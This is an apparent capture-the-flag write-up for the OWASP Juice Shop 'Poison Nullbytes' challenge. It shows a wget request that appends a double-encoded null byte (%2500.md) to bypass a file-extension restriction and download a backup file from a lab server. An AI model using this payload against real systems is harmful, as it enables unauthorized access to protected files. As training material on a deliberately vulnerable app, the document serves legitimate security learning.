 ## Poison Nullbytes
**Category:** Improper Input Validation

**Difficulty:** 4/6

**Challenge Description:** Bypass a security control with a Poison Null Byte to access a file not meant for your eyes.

## Approach

### Download Restrictions with File Extensions

As already seen in [Starting Point](/startingpoint.md) we can only download files from the ftp endpoint, if they end with *.md* or *.pdf*. This literally screams for null byte poisoning.

### Adding a Null Byte to the URL

When using `wget`, you can simply add the null byte (URL encode %00 => %2500) in the URL.

```Shell
┌──(orb1t4l㉿elysium)-[~/OWASP/juice-shop/ftp-files]
└─$ wget http://192.168.0.1:3000/ftp/package.json.bak%2500.md
--2024-09-13 11:58:56--  http://192.168.0.1:3000/ftp/package.json.bak%2500.md
Connecting to 192.168.0.1:3000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4291 (4.2K) [application/octet-stream]
Saving to: ‘package.json.bak%00.md’

package.json.bak%00.md                               100%[=====================================================================================================================>]   4.19K  --.-KB/s    in 0s      

2024-09-13 11:58:56 (397 MB/s) - ‘package.json.bak%00.md’ saved [4291/4291]
```

The download restriction was successfully bypassed, and if we download the remaining files, we also solve some more challenges:

- **Easter Egg**
- **Forgotten Developer Backup**
- **Forgotten Sales Backup**
- **Misplaced Signature File**
